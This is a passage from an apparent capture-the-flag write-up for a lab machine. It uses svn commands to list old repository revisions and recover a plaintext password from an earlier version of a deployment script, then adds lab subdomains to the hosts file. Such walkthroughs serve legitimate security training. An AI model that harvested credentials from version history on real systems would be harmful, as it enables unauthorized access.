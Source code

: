 we can enumerate the commits/revisions by tailing `@REVISION_NUMBER` at the very end of the URI

```bash
svn list svn://10.10.10.203/@REVISION_NUMBER
svn: E205000: Try 'svn help list' for more information
svn: E205000: Syntax error parsing peg revision 'REVISION_NUMBER'
```

we can know on which commit we are right not by checking out
                                                                                                                                                                                                                                             
```bash
$svn checkout svn://10.10.10.203
	Checked out revision 5.                                                                                                                                                                                                                        
$ svn list svn://10.10.10.203/@4    
dimension.worker.htb/                                                                                                                                                                                                                                            
svn list svn://10.10.10.203/@3
deploy.ps1
dimension.worker.htb/
svn cat svn://10.10.10.203/deploy.ps1@3                                                                                                                                                                                             
$user = "nathen" 
# NOTE: We cant have my password here!!!
$plain = ""
$pwd = ($plain | ConvertTo-SecureString)
$Credential = New-Object System.Management.Automation.PSCredential $user, $pwd
$args = "Copy-Site.ps1"
Start-Process powershell.exe -Credential $Credential -ArgumentList ("-file $args")                                                                                                                                                                                                                                             
 svn cat svn://10.10.10.203/deploy.ps1@2
$user = "nathen" 
$plain = "wendel98"
$pwd = ($plain | ConvertTo-SecureString)
$Credential = New-Object System.Management.Automation.PSCredential $user, $pwd
$args = "Copy-Site.ps1"
Start-Process powershell.exe -Credential $Credential -ArgumentList ("-file $args")
```

and bingo. We get credentials as `nathen` with the password `wendel98`. We also got a few subdomains that we want to add to our `/etc/hosts`

```bash
10.10.10.203 worker.htb
10.10.10.203 dimension.worker.htb
10.10.10.203 devops.worker.htb
```

Let's go to `devops.worker.htb` 
